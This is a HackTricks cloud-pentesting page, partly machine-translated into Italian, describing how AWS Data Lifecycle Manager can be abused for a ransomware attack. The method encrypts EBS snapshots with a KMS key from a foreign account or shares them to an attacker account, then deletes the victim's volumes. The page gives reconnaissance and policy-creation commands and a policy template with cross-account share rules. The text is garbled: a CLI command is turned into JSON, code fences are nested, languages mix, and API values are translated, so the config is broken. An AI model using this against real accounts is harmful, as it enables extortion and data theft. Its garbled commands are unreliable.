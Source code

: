 # AWS - Gestore del ciclo di vita dei dati

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

## Gestore del ciclo di vita dei dati (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Un attacco ransomware può essere eseguito crittografando il maggior numero possibile di volumi EBS e quindi cancellando le istanze EC2 attuali, i volumi EBS e gli snapshot. Per automatizzare questa attività dannosa, si può utilizzare Amazon DLM, crittografando gli snapshot con una chiave KMS da un altro account AWS e trasferendo gli snapshot crittografati a un account diverso. In alternativa, potrebbero trasferire gli snapshot senza crittografia a un account gestito da loro e crittografarli lì. Anche se non è immediato crittografare direttamente i volumi EBS o gli snapshot esistenti, è possibile farlo creando un nuovo volume o snapshot.

In primo luogo, si utilizzerà un comando per raccogliere informazioni sui volumi, come l'ID dell'istanza, l'ID del volume, lo stato della crittografia, lo stato dell'attaccamento e il tipo di volume.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```json
{
  "aws dlm create-lifecycle-policy --description": "La mia prima policy",
  "--state": "ABILITATO",
  "--execution-role-arn": "arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole",
  "--policy-details": "file://policyDetails.json"
}
```
```

A template for the policy document can be seen here:
```bash
```json
{
"PolicyType": "GESTIONE_SNAPSHOT_EBS",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ChiaveEsempio",
"Value": "ValoreEsempio"
}
],
"Schedules": [
{
"Name": "SnapshotGiornalieri",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "CreatoreSnapshot",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CentroCosti",
"Value": "Finanza"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "ORE",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "ORE"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "GIORNI"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "GIORNI"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
